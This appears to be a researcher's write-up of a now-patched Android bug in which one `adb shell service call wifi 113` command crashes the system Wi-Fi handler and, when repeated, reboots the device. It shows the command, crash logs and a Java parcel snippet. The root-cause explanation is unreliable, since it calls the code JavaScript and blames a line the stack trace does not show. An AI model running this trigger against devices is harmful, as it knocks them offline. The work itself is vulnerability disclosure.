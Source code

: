# Silly calls and silly bugs 

bugs in android that cause a dos. 

I was needing a break form IOS and MACos so I deviced to focous on Android  bugs and a way to find them, this lead me down a rabit hole about service calls. In this write up, I will cover service calls, and a null defefferecne which leads to the device shutting off once sent via abd to the device. 

![Android Stack](https://source.android.com/static/images/android-stack.svg)

We can se that the services are on a good level and can possibly deliver some bugs if we fuzz them, the idea was spawned from this write up on obtaining lpe on Andorid but the code provided was vauge, so I wrote the service fuzzer, the research took around 40/50 hours to do, as there was a lot of trial and error. 

Covering the crash, afetr we send our service call, to the wifi stack, we can see the following crash, if we continie to spam the device with the packets after the null pointer it then shuts off the device and causes a reboot, for some reason I do not know why. But this is what it does. It has since been patched and can be seen here[] as patched, I may have submitted it the wrong way to the Android team, I thought if you posted directly on thier bugs some bugs could get noticed by the security team where this is not the case, I then had to then re report the bug to product security and hopefully, this meets the critiria for a CVE as it does cause a dos in the system due to a NPE.

```bash
$ adb adb shell service call wifi 113

$ adb logcat -b crash
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:12:14.922 13325 13606 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:12:15.126 14876 30004 E AndroidRuntime: FATAL EXCEPTION: lowpool[28]
02-22 14:12:15.126 14876 30004 E AndroidRuntime: Process: com.google.android.gms.persistent, PID: 14876
02-22 14:12:15.126 14876 30004 E AndroidRuntime: DeadSystemException: The system died; earlier logs will point to the root cause
02-22 14:15:18.576 30232 30495 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:15:18.576 30232 30495 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:15:18.576 30232 30495 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: !@*** FATAL EXCEPTION IN SYSTEM PROCESS: WifiHandlerThread
02-22 14:18:15.797 15657 15912 E AndroidRuntime: java.lang.NullPointerException: Attempt to invoke interface method 'android.os.IBinder android.os.IInterface.asBinder()' on a null object reference
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.RemoteCallbackList.unregister(RemoteCallbackList.java:156)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiMetrics.removeOnWifiUsabilityListener(WifiMetrics.java:7559)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.lambda$removeOnWifiUsabilityStatsListener$108(WifiServiceImpl.java:6283)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl.$r8$lambda$SBpNFH_Zvv16E23PY-wxYG5jMI4(WifiServiceImpl.java:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.WifiServiceImpl$$ExternalSyntheticLambda117.run(R8$$SyntheticClass:0)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.handleCallback(Handler.java:958)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Handler.dispatchMessage(Handler.java:99)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at com.android.server.wifi.RunnerHandler.dispatchMessage(RunnerHandler.java:122)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loopOnce(Looper.java:230)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.Looper.loop(Looper.java:319)
02-22 14:18:15.797 15657 15912 E AndroidRuntime: 	at android.os.HandlerThread.run(HandlerThread.java:67)
```
Now if the Javascript code is then reviewed this can be traced to the following paramaters of the JS object. 

![Android WIFI stack](https://source.android.com/static/docs/core/architecture/images/wifi-components.png)


#### - android.net.wifi.WifiEnterpriseConfig
```Java 
public static final Creator<WifiEnterpriseConfig> CREATOR =
            new Creator<WifiEnterpriseConfig>() {
                public WifiEnterpriseConfig createFromParcel(Parcel in) {
                    WifiEnterpriseConfig enterpriseConfig = new WifiEnterpriseConfig();
                    int count = in.readInt();
                    for (int i = 0; i < count; i++) {
                        String key = in.readString();
                        String value = in.readString();
                        enterpriseConfig.mFields.put(key, value);
                    }
                    enterpriseConfig.mCaCert = readCertificate(in);
                    PrivateKey userKey = null;
                    int len = in.readInt();
                    if (len > 0) {
                        try {
                            byte[] bytes = new byte[len];
                            in.readByteArray(bytes);
                            String algorithm = in.readString();
                            KeyFactory keyFactory = KeyFactory.getInstance(algorithm);
                            userKey = keyFactory.generatePrivate(new PKCS8EncodedKeySpec(bytes));
                        } catch (NoSuchAlgorithmException e) {
                            userKey = null;
                        } catch (InvalidKeySpecException e) {
                            userKey = null;
                        }
                    }
                    enterpriseConfig.mClientPrivateKey = userKey;
                    enterpriseConfig.mClientCertificate = readCertificate(in);
                    return enterpriseConfig;
                }
```

The trigger of the crash is the following, by simply calling wifi 113 

``` Java 
enterpriseConfig.mFields.put(key, value);
```
The mfields are used as a hash reprensetation of the keys used for authentication in the WifiEnterpriseConfig which would make sense as there needs to be some form of verification/attistation for WIFI. By giving this a null or simply call the service without any other stages for authentication will simpaly trigger the defrffrence, though this could be triggered ina real situation, if just a null object was passed to the device when it is searching for wifi. 




https://issuetracker.google.com/issues/326278126

